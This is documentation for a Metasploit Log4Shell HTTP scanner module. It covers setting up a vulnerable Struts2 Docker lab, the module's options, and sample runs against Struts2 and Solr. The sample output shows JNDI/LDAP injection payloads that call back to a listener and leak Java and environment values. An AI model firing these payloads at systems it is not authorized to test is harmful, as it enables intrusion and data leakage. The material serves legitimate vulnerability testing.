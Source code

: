## Vulnerable Application
This module will scan an HTTP end point for the Log4Shell vulnerability by injecting a format message that will
trigger an LDAP connection to Metasploit. This module is a generic scanner and is only capable of identifying
instances that are vulnerable via one of the pre-determined HTTP request injection points. These points include
HTTP headers and the HTTP request path. URI paths for common, known-vulnerable applications are included
in the `data/exploits/CVE-2021-44228/http_uris.txt` data file.

This module has been successfully tested with:

* Apache Solr
* Apache Struts2
* Spring Boot
* VMWare VCenter

## Verification Steps

1. Setup a vulnerable Struts2 instance (see the steps below)
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/log4shell_scanner`
4. Set the `SRVHOST`, `RHOSTS`, `RPORT` and `TARGETURI` options
    * For Struts2, set `TARGETURI` to `/struts2-showcase/`
5. Do: `run`
6. The target should be identified as vulnerable

### Apache Struts2 Setup

The following docker file can be used to setup a vulnerable Struts2 instance for testing.

```
#
# To build the image:
#   docker build . -t struts2:2.5.28
# To run the container:
#   docker run --name struts2 --rm -p 8080:8080 struts2:2.5.28
#

ARG version=2.5.28
FROM bitnami/tomcat:9.0
USER root
ENV TOMCAT_PASSWORD password

RUN apt-get update && \
	apt-get -y install unzip && \
	apt-get clean && \
	rm -rf /var/lib/apt/lists/* /tmp/* /var/tmp/*

RUN curl https://archive.apache.org/dist/struts/2.5.28/struts-2.5.28-all.zip > struts-all.zip && \
	unzip struts-all.zip && \
	cp /struts-2.5.28/apps/struts2-showcase.war /bitnami/tomcat/webapps/
```

## Options

### HTTP_METHOD
The HTTP method to use.

### HEADERS_FILE
File containing headers to check, one per line. Lines starting with `#` will be treated as comments.

### URIS_FILE
File containing additional URIs to check, one per line. These values will be appended to the `TARGETURI` option. Lines 
starting with `#` will be treated as comments. Lines may also contain the string `${jndi:uri}` which will be used as the
injection point. This enables query parameters to be included in the request which are required for certain
applications.

### LEAK_PARAMS
Additional parameters to leak, separated by the `^` character. For example the following would leak the USER and PATH
environment variables: `${env:USER}^${env:PATH}`. See the [Log4j Lookups][log4j-lookups] wiki page for more information
on available parameters.

### LDAP_TIMEOUT
Time in seconds to wait to receive LDAP connections.

## Scenarios

### Apache Struts2

```
msf6 > use auxiliary/scanner/http/log4shell_scanner 
msf6 auxiliary(scanner/http/log4shell_scanner) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 auxiliary(scanner/http/log4shell_scanner) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(scanner/http/log4shell_scanner) > set TARGETURI /struts2-showcase/
TARGETURI => /struts2-showcase/
msf6 auxiliary(scanner/http/log4shell_scanner) > run

[*] Started service listener on 192.168.159.128:389 
[+] Log4Shell found via /struts2-showcase/%24%7bjndi%3aldap%3a%24%7b%3a%3a-/%7d/192.168.159.128%3a389/r7yol50kgg7be/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d/ (java: BellSoft_11.0.13)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/log4shell_scanner) > 

```

### Apache Solr

Apache Solr is trivially exploitable by a remote and unauthenticated attacker when in its default configuration:

```
msf6 > use auxiliary/scanner/http/log4shell_scanner
msf6 auxiliary(scanner/http/log4shell_scanner) > run http://10.10.235.209:8983/ srvhost=10.9.4.245

[*] Started service listener on 10.9.4.245:389
[+] 10.10.235.209:8983    - Log4Shell found via /solr/admin/cores?action=CREATE&wt=json&name=%24%7bjndi%3aldap%3a/10.9.4.245%3a389/vslscuy7m6q9pgfc18h/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d (java: Oracle Corporation_1.8.0_181)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Auxiliary module execution completed
```

[log4j-lookups]: https://logging.apache.org/log4j/2.x/manual/lookups.html
